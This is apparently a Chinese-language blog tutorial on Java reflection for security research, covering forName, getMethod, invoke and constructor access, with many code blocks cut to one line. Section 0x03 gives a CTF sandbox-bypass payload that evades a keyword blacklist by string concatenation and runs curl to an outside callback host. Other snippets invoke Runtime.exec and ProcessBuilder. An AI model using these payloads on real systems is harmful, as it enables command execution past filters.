java反射机制
0x01 反射原理
反射中几个极为重要的方法：
1 | 获取类的⽅法： forName |
方法详解：
forName():

forName两种使用形式：
1 | Class<?> forName(String name) |
newInstance():

newInstance()没有参数输入，所以newInstance()只能实例化含有无参构造函数的类。当没有无参构造函数时即会报错：

实例化类的对象，如将forname()获取到的类方法，实例化：
1 | Class.forName("com.javaSec.Test").newInstance() |
getMethod():

java中支持者类的重构，不能仅通过函数名来确定一个函数。所以，
在调用 getMethod 的时候，我们需要传给他你需要调用的函数的参数类型列表，如下：
1 | Class.forName("java.lang.Runtime").getMethod("exec", String.class) |
exec参数列表：

(String cmdarray[])，getMethod()获取的参数类型列表(String name, Class<?>... parameterTypes)
- 单独的T代表一个类型，而Class
和Class<?>代表这个类型所对应的类 - Class
在实例化的时候，T要替换成具体类 - Class<?>它是个通配泛型，?可以代表任何类型
- 此处
...这种语法表示Class参数数量是可变的。当参数中有多个不同类型的列表时，及需要传入多个参数类型列表。
因为exec执行的命令为touch test3.txt所以此处应该传入String.class.
获取函数的方法，如：
1 | System.out.println(Class.forName("com.javaSec.Test").getMethod("testMethod")); |
在此处，testMethod()无参数列表，则不需要输入参数类型列表。
invoke():
执行函数的方法。

第一个参数是执行method的对象，
- 如果这个方法是一个普通方法，那么第一个参数是类对象
- 如果这个方法是一个静态方法，那么第一个参数是类（之后会提到，这里其实不用那么死板，这个）
它接下来的参数才是需要传入的参数。
由于我们的exec函数是一个普通方法，需要传入类对象，即invoke(类对象，exec方法传入的参数).
exec方法为Runtime类方法，所以要传入Runtime类。
Runtime类源码：

Runtime()为私有方法，只能通过公有方发getRuntime()获取。
所以，Runtime的类对象不能通过newInstance()来实例化对象,是因为Runtime的类构造函数是一个private构造函数，只能通过getRuntime方法返回一个对象。
获取类对象：Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")) (由于getRuntime是一个静态方法，invoke传入Runtime类，进行调用)invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))，"calc.exe")
那么合成以上的操作：
1 | Class.forName("java.lang.Runtime").getMethod("exec", String.class).invoke(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime")),"touch test3.txt"); |
亲测可写文件,再简化一下：
1 | Class clazz = Class.forName("java.lang.Runtime"); |
以上我们就完成了通过类内置的静态方法获取类的实例，进一步调用一个public方法。
但是假如一个类没有无参构造方法（即不能class.newInstance()），也没有单例模式（只存在一个实例）的静态方法（即不能像getRuntime一样获取实例），那我们该如何实例化这个类呢？
第二个参数是，是需要传入的调用函数的参数列表，…表示数量可控，可以传入多个参数（也正好和函数传入多个参数对应）。如：

这里传入的参数为exec函数的参数
写一些代码来加深理解：
正常类执行的方式与反射执行的方式一一对应。

1. 获取类的三种方法
1 | // 1。获取类的三种方法（获取java.lang.Class）对象 |
可以看到反射只需要以参数的形式给出类的完整路径：com.javaSec.Test即可获取到类。
2. 获取类对象方法
1 | // 2.获取累的方法 |
3. 实例化类的对象
1 | // 3.实例化类的对象 |
4. 执行函数的方法
1 | // 4. 执行函数方法 |
0x02 反射在java开发中的应用
JDBC加载数据库驱动就用到了反射:
1 | public static final String JDBC_DRIVER = "com.mysql.jdbc.Driver"; |
Class.forName(String className)返回的是一个类，在这个过程中，会把该类加载到jvm中，即这个类的静态代码会执行，我们主要就是为了要个静态代码块（**java.sql.DriverManager.registerDriver(new Driver());**）执行才加载这个驱动的。为什么不使用new com.mysql.jdbc.Driver()这种方式呢？
如果使用new com.mysql.jdbc.Driver()这种方式，会对这个具体的类产生依赖。后续如果你要更换数据库驱动，就得重新修改代码。而使用反射的方式，只需要在配置文件中，更改相应的驱动和url即可。—-解耦
—–来自：为什么JDBC中加载驱动要使用反射？
0x03 反射在java安全中的应用
看p牛的java漫谈中说：在安全研究中，我们使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。
p牛还给出了一个例子：
1 | 上下⽂中如果只有Integer类型的数字，我们如何获取到可以执⾏命令的Runtime类呢？也许可以这样（伪代 |
我们来深入理解一下这句话，p牛举了一个ctf类题目。
其中

其中存在黑名单过滤了：
1 | - java.+lang |
通过反射的方式来调用函数，验证payload:
1 | String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("exec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")),"curl http://fg5hme.ceye.io/1aa1k"); |
其中forName()传入类路径为字符串参数，此处就可以通过字符串拼接的方式来绕过，黑名单。
0x04 反射获取私有方法，私有构造函数
1.没有无参构造函数，没有类似单列模式的静态方法如何反射实例化该类
此时就要用到一个新的反射方法getConstructor()。
和getMethod()类似，getConstructor()接收的参数是构造函数列表类型，因为构造函数也支持重载，必须用参数列表类型才能唯一确定一个构造函数。获取到构造函数后我们用newInstance()来实例化。
getConstructor()：

getConstructor()接收构造函数参数列表类型。
一个简单demo：
1 | package com.javaSec; |
2.如果一个方法或构造函数是私有的，能否通过反射执行他
getConstructor()获取的构造函数只能是公有的，private, protected,不书写(default),都会产生报错：

这里就涉及到getDeclared系列的反射，与普通的getMethod,getConstructor区别是：
- getMethod系列方法获取的是当前类中所有
公共方法，包括从父类继承的方法。 - getDeclaredMethod系列方法获取的是当前类中声明的方法，是实在写在这个类里的，包括私有的方法，但从父类里继承来的就不包含了
getDeclaredMethod 的具体用法和 getMethod 类似， getDeclaredConstructor 的具体用法和getConstructor 类似
getDeclaredConstructor():

getDeclaredConstructor接收构造函数参数列表。
使用实例：
1 | package com.javaSec; |
0x05 ps:构造函数接收参数为String... command时：
public ProcessBuilder(String… command)接收参数为String... command。这种情况下getConstructor()怎么传入参数类型列表呢？
p神给了说明，简单记录一下：
...：这样的语法表示这个函数参数个数是可变的。
对于可变长参数，java在编译的时候，会编译成一个数组，也就是说一下两种写法在底层是等价的(也就不能重载)：
1 | public void hello(String[] names) {} |
所以获取ProcessBuilder(String… command)式的构造函数，可以这样写：
1 | Class clazz = Class.forName("java.lang.ProcessBuilder"); |
将字符串数组的类String[].class传给getConstructor即可。
在调用newInstance时，因为这个函数本身接受的是一个可变参数，传给ProcessBuilder的也是一个可变参数，二者叠加为一个二维数组，所以payload如下：
1 | Class clazz = Class.forName("java.lang.ProcessBuilder"); ((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new String[][]{{"calc.exe"}})).start(); |
完成采用反射的方式：
1 | package com.javaSec; |
0x06 参数：
p神代码审计星球—java漫谈反射系列
 alipay
alipay